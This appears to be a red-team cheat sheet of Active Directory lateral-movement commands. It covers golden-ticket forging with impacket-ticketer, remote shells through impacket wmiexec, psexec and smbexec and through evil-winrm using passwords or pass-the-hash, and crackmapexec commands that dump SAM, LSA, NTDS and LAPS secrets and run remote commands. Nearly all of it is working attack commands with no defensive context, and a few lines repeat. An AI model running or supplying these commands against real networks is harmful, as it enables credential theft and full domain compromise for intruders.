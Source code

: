 ### Lateral Movement

```
/usr/bin/impacket-ticketer -domain activebreach.io -domain-sid S-1-5-21-134085869-1149061413-485552689 -nthash 1d2ceb7b570cc960903077eeee93ccd9 Administrator
export KRB5CCNAME=Administrator.ccache

/usr/bin/impacket-wmiexec -k -no-pass -dc-ip 10.10.10.10 DC-ActiveBreach.ActiveBreach.io -target-ip 10.10.10.10
/usr/bin/impacket-psexec -k -no-pass -dc-ip 10.10.10.10 DC-ActiveBreach.ActiveBreach.io -target-ip 10.10.10.10
/usr/bin/impacket-smbexec  -k -no-pass -dc-ip 10.10.10.10 DC-ActiveBreach.ActiveBreach.io -target-ip 10.10.10.10
```

```
impacket-wmiexec Administrator:P@ssw0rd@192.168.10.131
impacket-wmiexec adminWebSvc:'FGjksdff89sdfj'@192.168.215.181
impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 Orlando@192.168.10.122
impacket-psexec Administrator:P@ssw0rd@192.168.10.131
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 Orlando@192.168.10.122 

```
evil-winrm -i 192.168.43.5 -u Administrator -H d958f23d92281df0b62a6d7e9f42ee88
```

```
crackmapexec smb 192.168.10.131 -u Administrator -p P@ssw0rd --local-auth  --sam
crackmapexec smb 192.168.10.131 -u Administrator -p P@ssw0rd --local-auth  --lsa
crackmapexec smb 192.168.10.131 -u Administrator -p P@ssw0rd --local-auth  --lsa
crackmapexec smb 192.168.10.131 -u Administrator -p P@ssw0rd --local-auth  --lsa
crackmapexec smb 192.168.10.131 -u Administrator -p P@ssw0rd --local-auth --ntds
crackmapexec smb 192.168.10.131 -u Administrator -p P@ssw0rd --local-auth  -M laps
crackmapexec smb 192.168.10.131 -u Administrator -p P@ssw0rd --local-auth  -M ntdsutil
crackmapexec smb 192.168.10.131 -u Administrator -p P@ssw0rd --local-auth  --ntds vss
crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
crackmapexec smb 192.168.10.131 -u Administrator -p P@ssw0rd --spider C\$ --pattern txt 
crackmapexec smb 192.168.10.131 -u Administrator -p P@ssw0rd -x "type C:\Windows\System32\Tasks\HackMe.txt"
```


